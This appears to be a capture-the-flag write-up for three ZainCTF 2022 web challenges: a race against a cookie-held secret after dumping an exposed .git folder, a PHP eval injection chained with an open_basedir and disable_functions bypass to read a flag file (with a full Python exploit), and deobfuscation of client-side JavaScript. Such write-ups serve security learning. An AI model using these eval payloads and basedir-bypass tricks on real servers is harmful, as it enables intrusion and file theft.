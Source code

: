 # ZainCTF 2022 - Web 
## 1- Sonic go Brr 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://instance-web.cybertalentslabs.com/index.php
- points: 50
</br>

So the website disclosed a .git folder , with this [tool](https://github.com/arthaud/git-dumper) i got the backend files , in the source code i found that the check was if the secret (bas64 string) is equal to the value of parameter Q , and that needs to go fast enough to be submitted 
</br>

i wrote this code then 
```python
import requests
import base64 as bs
import urllib.parse as url

def get() : 
    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
    }

    response = requests.get('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, verify=False)
    return  response.cookies["PHPSESSID"], response.cookies["secret"]

def post(session , secret) : 
    cookies = {
        'PHPSESSID': session,
        'secret': secret,
    }

    headers = {
        'Host': 'wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1',
        'Sec-GPC': '1',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '12',
    }

    data  ="Q=" + bs.b64decode(url.unquote(secret)).decode('utf-8')
    

    response = requests.post('http://wcomekgvdnrf93rq5l3n94wbq36o0wz0yqnlsw3o-web.cybertalentslabs.com/index.php', headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
if __name__ == "__main__" : 
    sess , cookie = get()
    post(sess  ,cookie)
```

## 2- blobber 

#### about : 
- Type: Web 
- Level: meduim 
- Website: http://52.59.229.252:1234/index.php
- points: 100

the website shows the source code : 

```php
<html>
<!--
<img src="uploads/bg.png"/>
-->
<?php

if (!isset($_GET['e']))
{
highlight_file(__FILE__);
}

eval(stripslashes($_GET['e']));

if (isset($_GET['file'])){
 $dir= new DirectoryIterator($_GET['file']);
 foreach ($dir as $found) echo filemtime($found)." ";
 exit;

}

?>
</html>
```

now easy eval , easy rce right , nope let's try the payload 
```php
ini_set('display_errors', 1);
chdir('../');
```

it gives : 

> <b>Warning</b>:  chdir(): open_basedir restriction in effect. File(../) is not within the allowed path(s): (/var/www/html) in <b>/var/www/html/index.php(12) : eval()'d code(3) : eval()'d code</b> on line <b>3</b><br />

now thats a lockdown , ok it says something base_dir prevents us from getting the parent files , i tried many thing , but if we look in disabled_functions we wil find that we can't upload nor execute system commands , pretty bad.

disabled functions : 
>system, pcntl_signal_dispatch,  posix_uname,  chgrp,  posix_setsid, pcntl_wifcontinued, readlink, proc_open, pcntl_exec, pcntl_wstopsig, imap_open, tempnam, passthru,  chown, pcntl_wifexited, show_source,  popen, pcntl_async_signals, exec, posix_mkfifo, pcntl_wexitstatus, touch,  posix_mkfifo, copy, pcntl_sigprocmask, file, pcntl_sigwaitinfo, fopen, pcntl_wifsignaled, define_syslog_variables, tmpfile, pcntl_exec, pcntl_waitpid, imagecolormatch, popen,  pg_lo_import, readfile, ftp_ssl_connect,  dbmopen, apache_setenv, link, pcntl_fork, pcntl_signal, parse_ini_file,  proc_terminate, curl_multi_exec, pcntl_setpriority, rename, file_put_contents, pcntl_getpriority, pcntl_signal_get_handler, curl_exec, pcntl_strerror,  proc_close,  proc_nice, pcntl_sigtimedwait,  posix_getpwuid, pcntl_get_last_error,  symlink,  pclose,  dbase_open,  posix_kill, pcntl_alarm, ftp_connect,  chmod, shell_exec, pcntl_wait,  posix_setpgid, pcntl_wtermsig, pcntl_wifstopped

i searched and found this [github](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/README.md) repo , it was pretty handy , i tried and it worked : 

```php
$file_list = array();
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}\n";
}
```
> anaconda-post.log
> bin
> boot
> dev
> etc
> home
> lib
> lib64
> media
> mnt
> opt
> proc
> root
> run
> sbin
> srv
> sys
> t0t4lly_n0t_th3_r3al_fl4gG
> tmp
> usr
> var

we know it's in the t0t4lly_n0t_th3_r3al_fl4gG , we ned to get the file content : 

```php
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
```

and we got the flag : **flag{n1c3_w0rk_ch41n1ng_wrappers_w1th_b4s3d1r}**

for the complete exploit : 

```python
import requests
import base64 as bs
#t0t4lly_n0t_th3_r3al_fl4gG

headers = {
    'Host': '52.59.229.252:1234',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3',
    'Accept-Encoding': 'gzip, deflate',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'Sec-GPC': '1',
    'Content-Length':'0',
    'Cache-Control': 'max-age=0',
    'X-Forwarded-For': '127.0.0.1',
}
code = """
ini_set('display_errors', 1);
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");
chdir("../");
chdir("../");
chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""

command  = f"""
$code = base64_decode("{(bs.b64encode(code.encode("utf-8"))).decode("utf-8")}");
eval($code);
"""
params = (
    ('e', command),
)

response = requests.get('http://52.59.229.252:1234/index.php', headers=headers, params=params, verify=False)
print(response.text)
```


## 3- Obfjustu 

#### about : 
- Type: Web 
- Level: easy 
- Website: http://52.59.254.46:1245/
- points: 50


when we first open the website , It has a graphical CLI, we can see the available commads using /help

<center><img src="../images/Obfjustu.png"></img></center>

in the source code , i found the javascript responsible for the fonctions , an obfuscated part was revealuing itself : 

```js 
var _cs = ["\x6a\x53", "\x31\x30\x6e", "\x66\x75", "\x5f\x77", "\x30\x6d\x33", "\x43\x6c\x69", "\x48\x5f\x73", "\x7b\x30\x62", "\x61\x67", "\x33", "\x66\x6c", "\x31\x74", "\x65\x6e\x74", "\x73\x63", "\x77\x45\x4c", "\x4c\x63", "\x30\x6d", "\x61\x74", "\x7d", "\x67\x74\x68", "\x67\x74", "\x63\x61\x6c", "\x6c\x6f", "\x68", "\x6c\x65\x6e", "\x6d\x70", "\x65", "\x61\x72", '\x67\x65\x6f', "\x65\x43\x6f"];
var _xxg0 = _cs[10] + _cs[8] + _cs[7] + _cs[2] + _cs[13] + _cs[17] + _cs[1] + _cs[3] + _cs[11] + _cs[6] + _cs[4] + _cs[0] + _cs[18];

function _xxf0(_xxp1, _xxp0) {
    if (_xxp1[_cs[24] + _cs[19]] !== _xxp0[_cs[24] + _cs[20] + _cs[23]]) {
        return false;
    }
    return _xxp1[_cs[22] + _cs[21] + _cs[29] + _cs[25] + _cs[27] + _cs[26]](_xxp0) === 0;
}
if (_xxf0(_xxg0, word[2])) {
    log(_cs[5] + _cs[12], _cs[14] + _cs[15] + _cs[16] + _cs[9]);
}
```

put it in the console (we are not analyzing before getting the general idea) and we got the flag  :) : 

<center><img src="../images/flag_obfjustu.png"></img></center>
